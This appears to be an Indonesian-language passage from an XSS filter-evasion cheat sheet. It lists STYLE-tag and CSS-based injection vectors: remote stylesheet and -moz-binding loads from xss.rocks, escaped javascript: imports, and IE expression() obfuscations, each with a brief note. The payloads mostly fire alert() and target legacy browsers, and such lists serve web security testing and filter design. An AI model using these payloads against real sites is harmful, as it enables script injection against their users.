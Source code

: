 ```html
<STYLE>@import'http://xss.rocks/xss.css';</STYLE>
```

#### Lembar gaya jarak jauh bagian 3

Ini hanya berfungsi di mesin render Gecko dan berfungsi dengan mengikat file XUL ke halaman induk.

```html
<STYLE>BODY{-moz-binding:url("http://xss.rocks/xssmoz.xml#xss")}</STYLE>
```

### Tag STYLE yang Memisahkan JavaScript untuk XSS

XSS ini terkadang mengirim IE ke dalam lingkaran peringatan yang tak terbatas:

```html
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
```

### Atribut STYLE yang Memisahkan Ekspresi

```html
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
```

(Dibuat oleh Roman Ivanov)

### IMG STYLE dengan Ekspresi

Ini benar-benar gabungan dari dua vektor XSS terakhir, tetapi ini benar-benar menunjukkan betapa sulitnya STYLE tag dapat diurai secara terpisah. Ini dapat membuat IE mengalami pengulangan:

```html
exp/*<A STYLE='no\xss:noxss("*//*"); xss:ex/*XSS*//*/*/pression(alert("XSS"))'>
```

### Tag GAYA menggunakan Gambar latar

```html
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>
```

### Tag GAYA menggunakan Latar

```html
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>
<STYLE type="text/css">BODY{background:url("<javascript:alert>('XSS')")}</STYLE>
```

### HTML Anonim dengan Atribut GAYA

Mesin rendering IE tidak terlalu peduli apakah tag HTML yang Anda buat ada atau tidak, selama tag tersebut dimulai dengan tanda kurung siku terbuka dan huruf:

```html
<XSS STYLE="xss:expression(alert('XSS'))">
```
